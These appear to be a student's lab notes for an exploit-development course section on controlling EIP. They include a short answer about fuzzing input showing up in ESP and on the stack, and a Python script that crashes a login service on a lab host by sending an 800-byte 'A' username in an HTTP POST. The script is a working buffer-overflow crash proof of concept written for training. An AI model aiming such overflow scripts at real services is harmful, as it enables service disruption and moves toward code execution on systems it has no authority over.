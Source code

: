 
2.  **Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?**


The ESP register contains "A's" and we can also see the "A" characters on the stack itself.
![[imun_A.png]]


# 11.2.4 Controlling EIP
#### Exercises

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Write a standalone script to replicate the crash.
The following python3 script will lead to a crash:
```python
#!/usr/bin/python
import socket

try:
	print("\nAttempting to send buffer...")

	size = 800
	inputbuffer = "A" * size

	content = "username=" + inputbuffer + "&password=A"

	buffer = "POST /login HTTP/1.1\r\n"
	buffer += "Host: 192.168.222.10\r\n"
	buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
	buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buffer += "Accept-Language: en-US,en;q=0.5\r\n"
	buffer += "Referer: http://192.168.222.10/login\r\n"
	buffer += "Connection: close\r\n"
	buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
	buffer += "Content-Length: "+str(len(content))+"\r\n"
	buffer += "\r\n"
	  
	buffer += content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	  
	s.connect(("192.168.222.10", 80))
	encoded = buffer.encode()
	s.send(encoded)
		  
	s.close()

	print("\nSuccess!")

except:
	print("\nCould not connect")
```
